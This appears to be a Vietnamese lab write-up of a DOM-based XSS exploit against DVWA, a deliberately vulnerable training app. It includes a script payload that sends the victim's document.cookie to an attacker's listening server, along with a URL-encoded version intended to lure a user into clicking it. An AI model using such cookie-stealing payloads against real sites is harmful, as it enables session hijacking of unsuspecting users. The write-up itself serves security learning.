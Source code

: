# XSS DOM
## Client / Server side
## Pwned Time
![image](https://github.com/user-attachments/assets/2b6ebd0c-6c76-4903-9305-b13b16b73757)
*Mình sẽ khai thác XSS trực tiếp trên client-side khác với XSS reflected khai thác qua server-side*

![image](https://github.com/user-attachments/assets/b5823528-483f-4285-a890-82c4ebb2de35)
*Thử nhập 1 lệnh alert*
--> Kết quả:
![image](https://github.com/user-attachments/assets/752634e3-7aba-43c7-945d-07c6b05c5136)

Pwn time:
1. Tạo 1 local server qua python
![image](https://github.com/user-attachments/assets/6a79af35-58fe-4de8-b9d7-77fb0ad444a4)

2. Tạo payload độc, lừa user nhập vào
Payload gốc:
```
127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<script>window.location='http://127.0.0.1:8000/?cookie' + document.cookie</script>
```
![image](https://github.com/user-attachments/assets/ee01b5a4-71a4-48cf-b0db-9b04016eaefc)
*Nó sẽ ra 1 trang ntn*

Encode payload:
```
http%3A%2F%2F127.0.0.1%2Fdvwa%2Fvulnerabilities%2Fxss_d%2F%3Fdefault%3DEnglish%3Cscript%3Ewindow.location%3D%27http%3A%2F%2F127.0.0.1%3A8000%2F%3Fcookie%27%20%2B%20document.cookie%3C%2Fscript%3E
```
3. Kết quả
Session id của người dùng hiện trong cửa sổ server của attacker
 ![image](https://github.com/user-attachments/assets/71026905-c57d-471c-81db-891455ac4e22)




